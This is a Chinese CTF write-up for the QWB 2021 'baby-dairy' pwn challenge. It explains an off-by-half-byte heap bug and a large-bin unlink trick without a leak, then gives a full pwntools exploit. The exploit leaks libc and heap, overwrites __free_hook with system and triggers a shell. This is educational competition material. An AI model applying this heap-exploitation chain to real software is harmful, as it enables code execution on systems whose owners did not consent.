```yaml
---
title: baby-dairy
date: 2021-07-02 14:53:19
tags: 
---
```

baby-dairy qwb 2021
<!--more-->
# Ana

`libc version` == 2.31

漏洞点：

1. add会比输入的size大一个字节之后会补零，之后会往内容后面多半个字节写一个`checksum`(暂且称之为`offby0.5`)
2. `show`的时候会检查`checksum`不过写的有些问题用的是`&1`所以一半可能性能`show`出来（虽然`index`和`ptr`和`size`会被检查）

虽然做完之后感觉也没啥，但是这种利用`large bin`的方式很巧妙值得一篇单独的wp。

# Solution

本题之中开始时能用的上的只有 `offby0.5`,不能控制`size`大小所以只能控制`inuse`，这时候只能走`unlink`。因为`unlink`会检查 `fd→bk` 和`bk→fd`，但是没有泄漏，所以需要借助已有的地址，至于为什么要用`largin bin`因为`large bin`可以直接提供两个指向自己的`heap`指针且恰好可以设计size=presize（其实我是马后炮，我是看了队友给出的一篇[文章][1]发现2.29没泄漏走`large bin`比较快）。

一个`large bin`一般长这样，我们构造我们的fake chunk 再`large bin +0x10`处，将`bk`改成`size`，使其等于`persize`，`presize`自己算，恰好把`fake` `chunk`给`unlink`掉。

```bash
large bin (splited):
--------------------------------
presize       size
--------------------------------
fd            bk
--------------------------------
fd_nextsize   bk_nextsize
--------------------------------
unsorted bin
...
--------------------------------
attack chunk:(which offby0.5/with a fake presize)
--------------------------------
victim: (which would consolidate backforward)
...
--------------------------------
```

我们的写指针从`fd`开始写，当只有一个`large bin`的时候`nextsize`指针都指向自己，这是个优势我们如果要满足`unlink`只需要

1. `presize` = `large bin` +0x10
2. `fd` = `bk`-0x8
3. `size` = `pre_size`

通过以下手段满足：

1. 用`fastbin chain`（`tcache` 的话`key`会覆盖掉`fake chunk`的`size`）来放一个`heap`地址之后`partial` `write`掉指向`fake chunk`
2. `fd`可以`partial write`最后一个字节，倒数第二字节需要碰运气恰好为00（当然最后1.5字节要自己调成0，此处需要1/16的概率），之后程序会改掉2.5字节所以再需要1/16的概率。

这样只要设置好 `attack chunk`的 `fake presize`之后`free` 掉 `attack chunk` 就可以`overlap` `unsorted bin`，接下来就是常规操作了。

# EXP(1/256)

```python
from pwn import *
context.arch='amd64'
def cmd(c):
    p.sendlineafter(">> ",str(c))
def add(size,c='A\n'):
    cmd(1)
    p.sendlineafter(": ",str(size-1))
    p.sendafter(": ",c)
def free(c):
    cmd(3)
    p.sendlineafter(": ",str(c))
def show(c):
    cmd(2)
    p.sendlineafter(": ",str(c))
p=process("./pwn")
#context.log_level='debug'
add(0xd60)#0
add(0x6f8+0x20)#1
add(0x208)#2
add(0x488)#3
add(0x28)#4
free(1)
add(0xAAA)#1
add(0x18,"A\n")#5
add(0xAAA)#6
add(0x28,p64(1+0xd)+p64(0x901)+b'\x18'+b'\n')#7
for x in range(8,8+8):
    add(0x28)
for x in range(8,8+8):
    free(x)
free(7)
for x in range(7,7+7):
    add(0x28)
add(0x28,'\x30\n')#14
free(2)
add(0x208,'\0'*0x207)#2
free(2)
add(0x208,'\0'*0x1ff+'\x09'+'\n')#2
# context.terminal=['tmux','split']
# gdb.attach(p,'''
# set *0x55555555a040=0x000055555555a018
# set *0x000055555555a030=0x000055555555a030
# q
# ''')
context.terminal=['tmux','split','-h']
free(3)
add(0x548)#3
context.log_level='debug'
add(0x28,'A'*0x16+'\n')#15
add(0x160)#16
#raw_input()
show(15)
p.readuntil(": ")
base=u64(p.readline()[:-1]+b'\0\0')-(0x7f83ef52dbe0-0x7f83ef342000)
log.warning(hex(base))
#gdb.attach(p)
add(0x28)#17
add(0x28)#18
add(0x28)#19
add(0x28)#20
for x in range(7,7+6):
    free(x)
free(18)
free(20)
free(15)
show(17)
p.readuntil(": ")
heap=u64(p.readline()[:-1]+b'\0\0')-0x1230
log.warning(hex(heap))
free(19)
free(17)
for x in range(7,7+6):
    add(0x28)
add(0x28)#15
add(0x28,p64(base+0x1eeb28)+b'\n')#17 - > free hook 
add(0x28,'/bin/sh\0\n')#18
add(0x28)#19
add(0x28,p64(base+0x55410)+b'\n')#20
#gdb.attach(p,'b free')
free(18)
p.interactive()
```

# 总结

利用`large bin`的结构`partial write`来满足`unlink`的思路是很骚了。

即使是末尾补0，无泄露也挡不住`0ffby0.5`，这题挺有意思的。

[1]: https://www.anquanke.com/post/id/236078?ivk_sa=1024320u#h3-14